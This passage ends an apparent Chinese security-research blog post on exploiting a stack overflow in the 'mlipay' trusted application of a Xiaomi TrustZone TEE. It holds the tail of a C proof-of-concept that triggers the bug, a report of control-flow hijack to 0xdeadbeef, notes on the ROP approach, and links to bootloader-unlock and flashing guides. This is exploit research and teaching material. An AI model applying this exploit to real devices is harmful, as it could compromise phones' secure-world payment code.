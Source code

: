```c

    op.params[1].tmpref.buffer = output;
    op.params[1].tmpref.size   = 0x1000;

    printf("[+] trigger bug !\n");
    r = TEEC_InvokeCommand(&sess, 0, &op, NULL);
    printf("[+] invoke mlipay : %d\n",r);

    debug(op.params[0].tmpref.buffer,0x100);
    printf("---------------------------\n");
    debug(op.params[1].tmpref.buffer,0x100);

    return 0;
}
```

编译上传运行，exp卡住手机重启后，查看tee日志可见成功控制流劫持到0xdeadbeef：

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/deadbeef.png)

经过分析，如果要继续进行利用还是有些麻烦，因为这个栈溢出不是直接的memcpy，且还会有不可控的数据写入栈上，因此slipper的ROP利用中，是通过x19、x21、x23指向的可控内存才控制了更多的寄存器，而不是直接从栈上pop：

> 在没有调试器的情况下，x19、x21、x23指向的内存是可控数据这事，是咋看出来的呢？

![image](https://xuanxuanblingbling.github.io/assets/pic/pengpai/rop.png)

后续的ROP以及Patch Linux Kernel的过程，也在我复刻的CTF赛题中有所体现，欢迎参加 [OSR TrustZone Pwn](https://mp.weixin.qq.com/s/J_oy7q3zsdgzi85vtKnrOg) 线下实践课程进行体验，最后让我们致敬slipper！

## 其他

- [小米强解BL锁解BootLoader工具](https://blog.csdn.net/weixin_39621185/article/details/110209719)
- [9008模式深刷-刷机教程](https://web.vip.miui.com/page/info/mio/mio/detail?isTop=1&postId=18656253)
- [有高通9008强刷，那么BL锁的意义何在？](https://www.zhihu.com/question/279578454)
- [硬上MTK平板](https://www.jianshu.com/p/7eb3da0089ff)
- [fastboot命令大全](https://blog.csdn.net/weixin_37738083/article/details/62429992)